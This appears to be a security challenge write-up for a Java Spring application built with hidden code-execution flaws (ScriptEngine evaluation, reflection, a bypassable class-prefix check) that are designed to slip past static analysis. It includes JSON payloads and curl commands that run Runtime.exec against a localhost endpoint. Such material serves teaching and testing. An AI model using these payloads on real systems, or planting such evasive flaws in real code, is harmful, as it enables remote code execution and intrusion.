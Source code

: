 # Challenge 32 Vulnerability Demonstration

## Overview
The Java Spring application demonstrates multi-vector code execution vulnerabilities that are difficult for static analysis tools to detect.

## Key Vulnerabilities

### 1. JavaScript Engine Code Execution
**Location**: `evaluateExpression()` and `evaluateFormula()` methods
**Issue**: Uses ScriptEngine to evaluate user-controlled expressions

```java
javax.script.ScriptEngine engine = manager.getEngineByName("JavaScript");
engine.put("target", target);
return engine.eval(expression); // User-controlled expression executed
```

**Exploit Example**:
```json
{
  "operation": "transform",
  "data": {
    "expression": "java.lang.Runtime.getRuntime().exec('whoami')",
    "target": "test"
  }
}
```

### 2. Reflection-Based Class Instantiation
**Location**: `executeCustomOperation()` method
**Issue**: Dynamic class loading and method invocation based on user input

```java
String className = "com.custom.operations." + operation...
Class<?> operationClass = Class.forName(className);
```

**Exploit Example**:
```json
{
  "operation": "customOp",
  "data": {
    "className": "java.lang.Runtime", 
    "methodName": "getRuntime"
  }
}
```

### 3. Insufficient Validation Bypass
**Location**: `executeReflectionOperation()` method
**Issue**: Validation only checks class name prefix, allowing bypass

```java
if (!className.startsWith("java.lang") && !className.startsWith("java.util")) {
    throw new SecurityException("Unauthorized class access");
}
// But java.lang.Runtime is allowed!
```

## Why These Are Hard to Detect

1. **Legitimate Business Logic**: Expression evaluation appears to be a valid feature
2. **Layered Security**: Multiple validation layers make it appear secure
3. **Complex Flow**: Vulnerabilities span multiple methods and classes
4. **Context-Dependent**: Danger only emerges when all pieces combine
5. **Framework Integration**: Uses standard Spring patterns that look safe

## Impact
- Remote Code Execution
- System information disclosure  
- Arbitrary Java class instantiation
- Potential system compromise

## Demonstration Commands
(If application were running properly):

```bash
# Test basic functionality
curl -X POST http://localhost:8081/api/process \
  -H "Content-Type: application/json" \
  -d '{"operation": "format", "data": "hello"}'

# Exploit JavaScript engine RCE
curl -X POST http://localhost:8081/api/process \
  -H "Content-Type: application/json" \
  -d '{"operation": "transform", "data": {"expression": "java.lang.System.getProperty(\"user.name\")", "target": "test"}}'

# Exploit reflection vulnerability
curl -X POST http://localhost:8081/api/process \
  -H "Content-Type: application/json" \
  -d '{"operation": "calculate", "data": {"formula": "java.lang.Runtime.getRuntime().exec(\"id\")"}}'
```

The application demonstrates how sophisticated vulnerabilities can hide behind seemingly secure code patterns.
